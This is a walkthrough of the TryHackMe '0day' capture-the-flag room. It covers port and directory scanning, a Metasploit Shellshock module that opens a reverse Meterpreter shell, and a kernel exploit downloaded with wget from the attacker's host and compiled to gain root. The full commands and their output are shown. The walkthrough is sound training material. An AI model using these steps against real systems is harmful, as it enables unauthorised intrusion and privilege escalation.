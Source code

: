 [Link to room on TryHackMe.com](https://tryhackme.com/room/0day)




First step : enumerating ports with rustcan and nmap:

```
┌─[✗]─[root@parrot]─[/home/parrot]
└──╼ #rustscan -a 10.10.105.222
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
RustScan: Making sure 'closed' isn't just a state of mind.

[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.105.222:22
Open 10.10.105.222:80
[~] Starting Script(s)
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-05-06 22:02 +03
Initiating Ping Scan at 22:02
Scanning 10.10.105.222 [4 ports]
Completed Ping Scan at 22:02, 0.45s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 22:02
Completed Parallel DNS resolution of 1 host. at 22:02, 1.03s elapsed
DNS resolution of 1 IPs took 1.03s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 22:02
Scanning 10.10.105.222 [2 ports]
Discovered open port 22/tcp on 10.10.105.222
Discovered open port 80/tcp on 10.10.105.222
Completed SYN Stealth Scan at 22:02, 0.48s elapsed (2 total ports)
Nmap scan report for 10.10.105.222
Host is up, received echo-reply ttl 60 (0.42s latency).
Scanned at 2023-05-06 22:02:26 +03 for 1s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 60
80/tcp open  http    syn-ack ttl 60

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 2.05 seconds
           Raw packets sent: 6 (240B) | Rcvd: 3 (116B)
```
```
┌─[✗]─[root@parrot]─[/home/parrot]
└──╼ #nmap -p- -sC -sV 10.10.105.222       
Starting Nmap 7.80 ( https://nmap.org ) at 2023-10-22 07:47 CEST
Nmap scan report for 10.10.105.222
Host is up (0.047s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0day
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.16 seconds
```


After this results we see there is only two ports are open. If we search exploit for this versions of services we cant find something useful. So we continue to enumaration for port 80 with gobuster:



```
┌─[root@parrot]─[/home/parrot]
└──╼ #gobuster dir -u http://10.10.105.222/ -w common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.105.222/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 284]
/.htaccess            (Status: 403) [Size: 289]
/.htpasswd            (Status: 403) [Size: 289]
/admin                (Status: 301) [Size: 313] [--> http://10.10.105.222/admin/]
/backup               (Status: 301) [Size: 314] [--> http://10.10.105.222/backup/]
/cgi-bin              (Status: 301) [Size: 315] [--> http://10.10.105.222/cgi-bin/]
/cgi-bin/             (Status: 403) [Size: 288]
/css                  (Status: 301) [Size: 311] [--> http://10.10.105.222/css/]
/img                  (Status: 301) [Size: 311] [--> http://10.10.105.222/img/]
/index.html           (Status: 200) [Size: 3025]
/js                   (Status: 301) [Size: 310] [--> http://10.10.105.222/js/]
/robots.txt           (Status: 200) [Size: 38]
/secret               (Status: 301) [Size: 314] [--> http://10.10.105.222/secret/]
/server-status        (Status: 403) [Size: 293]
/uploads              (Status: 301) [Size: 315] [--> http://10.10.105.222/uploads/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================

```


We see there is robots.txt but when we go to the there is only one cute turtle:



![](pics/0day2.png)



after that we try to look at the /secret directory there is another funny message:


![](pics/0day3.png)



So after that we start nikto for to find out which vulnerability this site has:



```

```



So nikto says there is shellshock vulnerability for this and ı know a perfect exploit for it. For this vulnerabilty we use exploit/multi/http/apache_mod_cgi_bash_env_exec  exploit in the metasploit and ve set the options like this:



```
[msf](Jobs:0 Agents:0) exploit(multi/http/apache_mod_cgi_bash_env_exec) >> set  RHOSTS 10.10.105.222
RHOSTS => 10.10.105.222
[msf](Jobs:0 Agents:0) exploit(multi/http/apache_mod_cgi_bash_env_exec) >> set LHOST 10.17.51.16
LHOST => 10.17.51.16
[msf](Jobs:0 Agents:0) exploit(multi/http/apache_mod_cgi_bash_env_exec) >> set TARGETURI /cgi-bin/test.cgi
TARGETURI => /cgi-bin/test.cgi
[msf](Jobs:0 Agents:0) exploit(multi/http/apache_mod_cgi_bash_env_exec) >> set LPORT 1234
LPORT => 1234
[msf](Jobs:0 Agents:0) exploit(multi/http/apache_mod_cgi_bash_env_exec) >> run

[*] Started reverse TCP handler on 10.17.51.16:1234 
[*] Command Stager progress - 100.00% done (1092/1092 bytes)
[*] Sending stage (1017704 bytes) to 10.10.105.222
[*] Meterpreter session 1 opened (10.17.51.16:1234 -> 10.10.105.222:41085) at 2024-05-06 22:48:19 +0300

(Meterpreter 1)(/usr/lib/cgi-bin) >
```




And we have a meterpreter shell for get a normal shell we use shell command and look for if python exists and we see there is python3 and then we use this command to get a normal shell:



```
(Meterpreter 1)(/usr/lib/cgi-bin) > shell
Process 1087 created.
Channel 1 created.
python3 --version
Python 3.4.0
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/usr/lib/cgi-bin$ 

```



So we see we are in as www-data. When we go the home directory we see there is only one user named ryan and there is a .secret file but we dont have permission to read it. When go to ryan directory we get user first flag:



```
www-data@ubuntu:/usr/lib/cgi-bin$ cd /home
cd /home
www-data@ubuntu:/home$ ls -la
ls -la
total 12
drwxr-xr-x  3 root root 4096 Sep  2  2020 .
drwxr-xr-x 22 root root 4096 Sep  2  2020 ..
lrwxrwxrwx  1 root root   14 Sep  2  2020 .secret -> /root/root.txt
drwxr-xr-x  3 ryan ryan 4096 Sep  2  2020 ryan
www-data@ubuntu:/home$ cat .secret
cat .secret
cat: .secret: Permission denied
www-data@ubuntu:/home$ cd ryan
cd ryan
www-data@ubuntu:/home/ryan$ ls -la
ls -la
total 28
drwxr-xr-x 3 ryan ryan 4096 Sep  2  2020 .
drwxr-xr-x 3 root root 4096 Sep  2  2020 ..
lrwxrwxrwx 1 ryan ryan    9 Sep  2  2020 .bash_history -> /dev/null
-rw-r--r-- 1 ryan ryan  220 Sep  2  2020 .bash_logout
-rw-r--r-- 1 ryan ryan 3637 Sep  2  2020 .bashrc
drwx------ 2 ryan ryan 4096 Sep  2  2020 .cache
-rw-r--r-- 1 ryan ryan  675 Sep  2  2020 .profile
-rw-rw-r-- 1 ryan ryan   22 Sep  2  2020 user.txt
www-data@ubuntu:/home/ryan$ cat user.txt
cat user.txt
THM{Sh3llSh0ck_r0ckz}

```



After that we use this command to see can we see our permissions but system asks us the password:



```
www-data@ubuntu:/home/ryan$ sudo -l
sudo -l
[sudo] password for www-data: 
```



When we use this command to see what version of linux we have wee see it is a very old one:



```
www-data@ubuntu:/home/ryan$ uname -a
uname -a
Linux ubuntu 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```



When we search exploit for this version we found a useful exploit:



![](pics/0day4.png)



So all we should do send this exploit to the target and run it. For sending we can use python with this command:



```
python3 -m http.server 7000
```


 
Then we go to the /dev/shm directory because it is writable for everyone and we use this command to get our exploit:



```
wget http://10.17.51.16:7000/37292.c
```



Then we compile it and run it with this commands:




```
www-data@ubuntu:/dev/shm$ gcc 37292.c -o exploit
gcc 37292.c -o exploit
www-data@ubuntu:/dev/shm$ chmod +x exploit
chmod +x exploit
www-data@ubuntu:/dev/shm$ ./exploit
./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
whoami
root

```



And thats it, 0day pwned I hope you enjoy this write up . Thanks for reading!
 


